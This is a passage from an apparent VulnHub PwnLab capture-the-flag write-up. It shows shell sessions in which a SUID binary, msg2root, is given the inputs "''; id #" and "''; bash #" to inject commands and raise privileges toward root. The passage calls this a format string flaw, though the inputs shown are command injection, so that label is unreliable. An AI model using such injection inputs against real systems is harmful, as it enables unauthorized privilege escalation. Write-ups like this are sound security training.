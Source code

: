mike@pwnlab:~$ export PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
</usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games                    
mike@pwnlab:~$ id
id
uid=1002(mike) gid=1002(mike) groups=1002(mike),1003(kane)
mike@pwnlab:~$ 
{% endhighlight %}

YES, now we're `mike`!

## Root

Going to mike's home directory, there is another SUID binary `msg2root`:

{% highlight bash %}
mike@pwnlab:/home/mike$ ls -la
ls -la
total 28
drwxr-x--- 2 mike mike 4096 Mar 17  2016 .
drwxr-xr-x 6 root root 4096 Mar 17  2016 ..
-rw-r--r-- 1 mike mike  220 Mar 17  2016 .bash_logout
-rw-r--r-- 1 mike mike 3515 Mar 17  2016 .bashrc
-rwsr-sr-x 1 root root 5364 Mar 17  2016 msg2root
-rw-r--r-- 1 mike mike  675 Mar 17  2016 .profile
mike@pwnlab:/home/mike$ 
{% endhighlight %}

Let's transfer it to our machine:

![nc msg2root](/assets/img/vulnhub/linux/pwnlab/nc-msg2root.png)

Using `ghidra`'s decompiler:

![ghidra msg2root](/assets/img/vulnhub/linux/pwnlab/ghidra-msg2root.png)

This time, it looks like a format string vulnerability. 

Indeed, if we execute `id` through this binary, we can see that `euid`, `egid` and `groups` are updated:

{% highlight bash %}
mike@pwnlab:/home/mike$ ./msg2root
./msg2root
Message for root: ''; id #
''; id #

uid=1002(mike) gid=1002(mike) euid=0(root) egid=0(root) groups=0(root),1003(kane)
mike@pwnlab:/home/mike$
{% endhighlight %}

Let's have shell:

{% highlight bash %}
mike@pwnlab:/home/mike$ ./msg2root
./msg2root
Message for root: ''; bash #
''; bash #

bash-4.3$ id
id
uid=1002(mike) gid=1002(mike) groups=1002(mike),1003(kane)
bash-4.3$
{% endhighlight %}
